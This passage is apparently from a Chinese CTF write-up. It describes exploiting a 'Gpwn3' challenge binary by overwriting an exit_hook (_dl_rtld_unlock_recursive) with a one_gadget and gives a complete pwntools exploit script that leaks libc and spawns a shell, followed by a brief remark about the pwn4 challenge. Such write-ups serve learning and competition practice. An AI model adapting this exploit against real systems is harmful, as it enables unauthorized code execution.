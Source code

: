 因为有exit函数，很容易联想到打exit_hook。[exit_hook的知识点]( PWN学习—exit_hook-偷家 - BlackBird's Blog (blackbird-bb.github.io) ) 参考这位西电大佬写的博客，然后直接打onegadget就ok了。在打one_gadget的时候正常出来的四个gadget不能打通，这时候在one_gadget后加上-l2可以找到更多的gadget。

exp

```
from pwn import *
#io=process('./Gpwn3')
io=remote('127.0.0.1',10002)
elf=ELF('./Gpwn3')
libc=ELF('./libc-2.23.so')
context.log_level='debug'

def create(description):
 io.sendlineafter('choice:','1')
 io.sendafter(' level :\n',description)

def power(description):
 io.sendlineafter('choice:','2')
 io.sendafter('another level :',description) 

def beat(): 
 io.sendlineafter('choice:','3')

def give_up():
 io.sendlineafter('choice:','4')
   
def exp():
 create('a'*35+'\n')
 power('a')
 power('\xff\xff\xff\xff')
 beat()
 
 io.recvuntil('reward: ')
 puts=int(io.recv(14),16)
 libc_base=puts-libc.symbols['puts'] 
 print('libc_base',hex(libc_base))
 system=libc_base+libc.symbols['system']
 binsh=libc_base+libc.search('/bin/sh').next()
 dl_rtld_unlock_recursive = libc_base+0x5f0040+3856
 gadget=[0x45226,0x4527a,0xf03a4,0xf1247,0xcd173,0xcd248,0xf03b0,0xf67f0]
 #gdb.attach(io)
 io.sendafter('your name:',p64(dl_rtld_unlock_recursive))
 
 io.sendafter('for you!',p64(gadget[7]+libc_base))
 io.interactive()
exp()
```

### 【pwn4】

这个题有个小问题，忘了在add函数后加break跳出switch，因此有师傅修switch时修不出来add，只能看汇编代码，在这里和各位师傅道个歉。
